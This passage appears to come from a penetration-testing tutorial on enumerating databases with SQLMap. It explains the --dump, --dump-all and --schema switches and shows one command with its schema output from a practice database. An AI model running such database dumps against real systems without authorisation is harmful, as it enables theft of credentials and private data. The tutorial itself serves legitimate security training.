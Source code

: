 Instead of retrieving content per single-table basis, we can retrieve all tables **inside the database of interest** by skipping the usage of option `-T` altogether (e.g. `--dump -D testdb`). By simply using the switch `--dump` without specifying a table with `-T`, all of the current database content will be retrieved. As for the `--dump-all` switch, all the content from all the databases will be retrieved.

In such cases, a user is also advised to include the switch `--exclude-sysdbs` (e.g. `--dump-all --exclude-sysdbs`), which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest for pentesters.

## Advanced Database Enumeration
Now that we have covered the basics of database enumeration with SQLMap, we will cover more advanced techniques to enumerate data of interest further in this section.
### DB Schema Enumeration
If we wanted to **retrieve the structure of all of the table**s so that we can have a complete overview of the database architecture, we could use the switch `--schema`:
```bash
$ sqlmap -u "http://www.example.com/?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```